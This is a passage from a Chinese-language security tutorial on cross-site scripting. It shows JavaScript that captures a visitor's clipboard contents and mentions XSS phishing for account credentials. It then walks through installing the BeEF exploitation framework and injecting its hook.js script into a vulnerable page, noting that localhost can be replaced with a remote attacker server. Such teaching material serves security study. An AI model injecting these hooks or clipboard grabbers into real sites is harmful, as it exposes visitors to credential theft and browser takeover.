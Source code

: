 比如在 Chrome 浏览器中使用代码截获剪贴板内容：

```javascript
document.addEventListener('paste', function (evt) {
  clipdata = evt.clipboardData || window.clipboardData;
  console.log(clipdata.getData('text/plain'));
});
```

![Drawing 22.png](https://s0.lgstatic.com/i/image/M00/8B/A8/CgqCHl_cOwOAbfppAATnMiQk45A089.png)  
图 23：截获剪贴内容

比如钓鱼欺骗用户输入账号、密码：

![图片15.png](https://s0.lgstatic.com/i/image2/M01/03/E6/Cip5yF_kTF-ALwT6AALUte7Tb1k341.png)  
图 24：利用 XSS 进行钓鱼欺骗

方法还有很多，因篇幅有限，这里不再赘述，你可以参考下面讲到的 XSS 攻击框架 BeEF，它在工具上集成了很多 XSS 攻击方式，可直接使用。

#### BeEF

这里我要介绍一款非常著名的 XSS 攻击框架 [BeEF](https://beefproject.com/)，它支持 Docker 快速安装，可以从 GitHub 下载然后编译安装：

```shell
$ git clone https://github.com/beefproject/beef
$ cd beef
$ sudo docker build -t beef .
$ sudo docker run -p 3000:3000 -p 6789:6789 -p 61985:61985 -p 61986:61986 --name beef beef
```

运行成功后，你会得到一个 hook.js 地址，这是利用 XSS 漏洞插入目标网站的攻击脚本地址。

![Drawing 24.png](https://s0.lgstatic.com/i/image/M00/8B/A8/CgqCHl_cOyKADDkjAAC98rkZQJg985.png)  
图 25：返回 hook.js 和管理界面地址

我本地得到地址是：http://127.0.0.1:3000/hook.js（实际攻击时，可将 127.0.0.1 替换成你的远程服务器地址），那我就可以在漏洞页面插入如下代码进行利用：

```java
<script>http://127.0.0.1:3000/hook.js</script>
```

受害者访问后，若利用成功的话，在 BeEF 管理页面（此处为 http://127.0.0.1:3000/ui/panel）就可以看到目标上线了。

![Drawing 25.png](https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOymAFUlLAAJ8WDrvvw8214.png)  
图 26：BeEF 漏洞利用框架

刚运行的时候，BeEF 会生成随机密码，账号为 beef，比如：

```java
Beef credentials: beef:aaGivbkemeYNtCYRFrlyQN75lcmMYMm5
```

用上面的账号密码登录即可；你也可以修改 config.yaml 中的账号密码再运行。

BeEF 上面的利用功能实在是太多了，你可以把每个功能都试用一下，相信你试用完之后会对 XSS 的危害和利用手法有新的认识。

### 总结
